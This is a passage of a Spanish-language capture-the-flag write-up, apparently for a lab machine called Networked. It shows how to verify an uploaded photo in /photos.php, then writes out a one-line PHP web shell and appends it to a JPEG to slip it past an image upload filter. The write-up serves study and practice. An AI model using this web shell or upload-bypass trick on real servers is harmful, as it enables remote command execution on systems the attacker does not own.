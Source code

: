 >Efectivamente la foto se subió correctamente, comprobamos que esta en /photos.php

![[Pasted image 20250619155954.png]](Networked_images/20250619155954.png)

>Comprobamos que la foto esta en /photos.php y que se le ha asignado el nombre 10_10_14_49.jpeg que es nuestra ip cambiando 
>" . " por " _ " 
>

## Inyección de código en fotografía

### Creamos archivo php con shell

```php
php

<?php system($_GET['cmd']); ?>

```

![[Pasted image 20250619160258.png]](Networked_images/20250619160258.png)

### inyectamos la shell en la imagen

```bash
cat shell.php >> camel1.jpeg
```

![[Pasted image 20250619160504.png]](Networked_images/20250619160504.png)

